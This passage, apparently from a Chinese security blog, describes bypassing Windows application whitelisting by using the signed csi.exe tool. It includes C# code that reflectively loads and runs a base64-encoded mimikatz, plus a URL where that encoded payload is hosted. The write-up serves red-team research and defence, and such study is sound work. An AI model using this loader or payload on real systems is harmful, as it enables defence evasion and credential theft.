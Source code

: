 
**防御：**

对tracker.exe添加黑名单规则





## 0x02 use csi to bypass Application Whitelisting
---

**Reference:**

http://subt0x10.blogspot.com/2016/09/application-whitelisting-bypass-csiexe.html

**简介：**

同样是利用带有微软签名的exe绕过白名单的技巧，Matt Graeber曾介绍过如何利用cdb.exe绕过Windows Device Guard，Casey这次介绍的是使用C#相关的csi.exe绕过Windows Device Guard的技巧，本文将分享这个技巧的研究心得，并完成Casey在博客中留给读者的作业——在win10未安装VS2015的环境下如何使用csi.exe


**csi.exe：**

在Visual Studio 2015 Update 1引入

安装后位置在C:\Program Files (x86)\MSBuild\14.0\Bin


**实际测试：**

测试系统：

Win10 安装Visual Studio 2015

 **1.在csi编译环境中直接执行代码**
 
直接运行csi.exe会进入编译环境，可在里面直接填入代码并运行

如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-11-16/3-1.png)




测试Casey在文章中的代码，从文件中读取base64加密过的mimikatz.exe，解密执行，代码如下：

```
using System;
using System.Reflection;
string s = System.IO.File.ReadAllText(@"c:\\test\\katz.txt");
byte[] b = System.Convert.FromBase64String(s);
Assembly a = Assembly.Load(b);
MethodInfo method = a.EntryPoint;
object o = a.CreateInstance(method.Name);
method.Invoke(o, null);
```

 
mimikatz.exe作base64加密后保存的文件katz.txt已上传，地址为：
https://raw.githubusercontent.com/3gstudent/test/master/katz.txt

